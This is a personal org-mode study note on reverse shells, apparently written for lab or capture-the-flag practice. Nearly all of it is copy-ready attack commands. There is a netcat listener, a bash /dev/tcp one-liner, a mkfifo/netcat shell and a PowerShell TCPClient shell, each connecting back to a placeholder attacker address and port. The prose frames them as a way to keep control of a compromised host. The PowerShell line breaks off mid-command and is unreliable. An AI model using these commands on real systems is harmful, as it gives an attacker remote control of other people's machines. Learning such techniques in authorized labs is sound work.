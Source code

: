 :PROPERTIES:
:ID:       1008C5EC-5670-4EC8-83F0-CD324729977B
:END:
#+title: Reverse Shell
#+filetags: 
#+date: [2023-10-11 Wed 20:32]

A revershe shell is the most common type of shell, and is the quickest and easiest method to maintain control over a compromised host.

* Netcat listener
[[id:883260F6-A296-426E-BE31-4B0833572791][Netcat]] listener on any port

#+begin_src bash
nc -lvnp 1234
#+end_src
* Connect back IP
First we need to get the systems IP address to send the system back to us. The ip will be the one that the VPN is using to connect.

#+begin_src bash
ip a
#+end_src

* Making the connection
#+begin_src bash
bash -c 'bash -i >& /dev/tcp/<ip address>/<port number> 0>&1'
#+end_src>

#+begin_src bash
rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <ip address> <port number> >/tmp/f
#+end_src>

#+begin_src powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip address>",<port number>);$stream = $client.GetStream();[byte[]]
#+end_src>
